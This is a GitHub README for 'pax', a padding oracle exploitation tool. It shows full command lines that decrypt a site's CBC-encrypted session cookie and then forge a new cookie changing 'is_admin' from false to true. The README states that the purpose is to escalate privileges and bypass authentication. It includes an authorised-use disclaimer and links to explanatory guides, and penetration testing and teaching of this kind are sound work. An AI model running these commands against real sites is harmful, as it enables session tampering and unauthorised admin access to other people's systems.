 # pax

[![Travis Build Status](https://travis-ci.org/liamg/pax.svg?branch=master)](https://travis-ci.org/liamg/pax)
[![GoReportCard](https://goreportcard.com/badge/github.com/liamg/pax)](https://goreportcard.com/report/github.com/liamg/pax)

Exploit padding oracles for fun and profit!

Pax (PAdding oracle eXploiter) is a tool for exploiting padding oracles in order to:

1. Obtain plaintext for a given piece of CBC encrypted data.
2. Obtain encrypted bytes for a given piece of plaintext, using the unknown encryption algorithm used by the oracle.

This can be used to disclose encrypted session information, and often to bypass authentication, by encrypting custom plaintext and writing it back to the server. 

As always, this tool should only be used on systems you own and/or have permission to probe!

## Example Usage

If you find a suspected oracle, where the encrypted data is stored inside a cookie named `SESS`, you can use the following:

```bash
pax decrypt --url https://target.site/profile.php --sample Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D --block-size 16 --cookies "SESS=Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D"
```

This will hopefully give you some plaintext, perhaps something like:

```bash
 {"user_id": 456, "is_admin": false}
```

It looks like we could elevate our privileges here! We would then attempt to generate our own encrypted data that resolves back to our custom plaintext:

```bash
pax encrypt --url https://target.site/profile.php --sample Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D --block-size 16 --cookies "SESS=Gw3kg8e3ej4ai9wffn%2Fd0uRqKzyaPfM2UFq%2F8dWmoW4wnyKZhx07Bg%3D%3D" --plain-text '{"user_id": 456, "is_admin": true}'
```

This will spit out another base64 encrypted string, perhaps something like:

```
dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=
```

Now we open our browser and set the value of the `SESS` cookie to the above value (`dGhpcyBpcyBqdXN0IGFuIGV4YW1wbGU=`). Loading the original oracle page we should now see we are elevated to admin. 

## How does this work?

The following are great guides on how this attack works:

- https://robertheaton.com/2013/07/29/padding-oracle-attack/
- https://blog.skullsecurity.org/2013/padding-oracle-attacks-in-depth
